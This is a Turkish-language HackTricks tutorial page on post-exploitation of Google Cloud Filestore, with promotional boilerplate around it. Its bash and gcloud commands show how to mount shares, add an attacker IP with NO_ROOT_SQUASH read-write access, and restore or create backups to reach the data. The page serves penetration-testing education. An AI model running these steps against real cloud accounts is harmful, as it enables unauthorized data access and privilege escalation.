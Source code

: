 # GCP - Dosya Deposu Sonrası Sızma

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Dosya Deposu

Dosya Deposu hakkında daha fazla bilgi için şuraya bakın:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Dosya Deposunu Bağlama

Paylaşılan bir dosya sistemi **saldırganın bakış açısından ilginç olabilecek hassas bilgileri içerebilir**. Dosya Deposuna erişimle onu **bağlamak mümkündür**:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

Bir dosya deposu örneğinin IP adresini bulmak için sayfanın numaralandırma bölümüne bakın:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Kısıtlamaları Kaldırma ve Ek İzinler Alın

Saldırgan, paylaşıma erişimi olan bir IP adresinde değilse ancak değiştirme iznine sahipse, kısıtlamaları kaldırmak veya erişimi açmak mümkündür. Ayrıca, IP adresiniz üzerinde daha fazla ayrıcalık vererek paylaşıma yönetici erişimi sağlamak da mümkündür:
```bash
gcloud filestore instances update nfstest \
--zone=<exact-zone> \
--flags-file=nfs.json

# Contents of nfs.json
{
"--file-share":
{
"capacity": "1024",
"name": "<share-name>",
"nfs-export-options": [
{
"access-mode": "READ_WRITE",
"ip-ranges": [
"<your-ip-private-address>/32"
],
"squash-mode": "NO_ROOT_SQUASH",
"anon_uid": 1003,
"anon_gid": 1003
}
]
}
}
```
### Yedekleme geri yükleme

Eğer bir yedekleme varsa, mevcut bir örneğe veya yeni bir örneğe **geri yüklenebilir** ve böylece **bilgilerine erişilebilir hale gelir:**
```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
--zone=<zone> \
--tier=STANDARD \
--file-share=name=vol1,capacity=1TB \
--network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
--zone=<zone> \
--file-share=<instance-file-share-name> \
--source-backup=<backup-name> \
--source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```
### Yedek oluşturun ve geri yükleyin

Eğer bir paylaşıma erişiminiz yoksa ve onu değiştirmek istemiyorsanız, onun bir yedeğini oluşturmak ve önce bahsedildiği gibi geri yüklemek mümkündür:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
--region=<region> \
--instance=<instance-name> \
--instance-zone=<instance-zone> \
--file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
